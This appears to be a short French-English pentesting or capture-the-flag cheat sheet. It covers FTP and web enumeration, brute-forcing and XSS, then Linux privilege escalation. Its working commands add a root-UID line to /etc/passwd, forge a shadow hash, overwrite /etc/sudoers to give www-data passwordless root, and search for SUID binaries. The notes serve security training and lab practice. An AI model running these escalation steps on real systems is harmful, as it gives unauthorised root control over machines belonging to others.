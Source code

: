 
### FTP
***(anonymous login)***  
writeable files ?
get <filename>

### WEB
Look for commentary (even in default page)  
enumerate (gobuster)  
look for login form (Bruteforce)  
Commentary form (XSS)  


## PRIVESC
```bash
sudo -l (certains fichiers sont peut être modifiables ? $PATH ? Verify owner)
```
####/etc/passwd
- Droits sur /etc/passwd 
```bash
openssl passwd newpasswordhere
```
```test:x:0:0:root:/root:/bin/bash```  
### /etc/shadow
Droits sur /etc/shadow (hash pour "hashcat")
```bash
mkpasswd -m sha-512 newpasswordhere
```
Le resultat doit être comme suit : 
```
newroot:$6$K9AELjcE4suxukCp$vNLveaks59l46HZOT5TCaxMa1xI6agxYmAFE9CMWCY9/LtBWhzlKM6k4ivhCCntbtFB/Exh3SifcOP9UZ2SIS.:19328:0:99999:7:::
```
### /etc/sudoers
```bash 
sudo -l 
```
- Droits sur /etc/sudoers  
```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
```
***user ALL = (root) NOPASSWD: ALL***
### /etc/group
- Droits sur /etc/group  
append user at end of root:x:0:<UTILISATEUR>
### SUID : GTFObins
```bash
find / -perm -u=s -type f 2>/dev/null
```

### PATH Variable
### ssh private key
### mots de passes accidentellement tapés (history)
### Cronjobs
### Look for stuff in config files (important in CMS)
### Look for kernel exploit (exploit-suggester.pl)

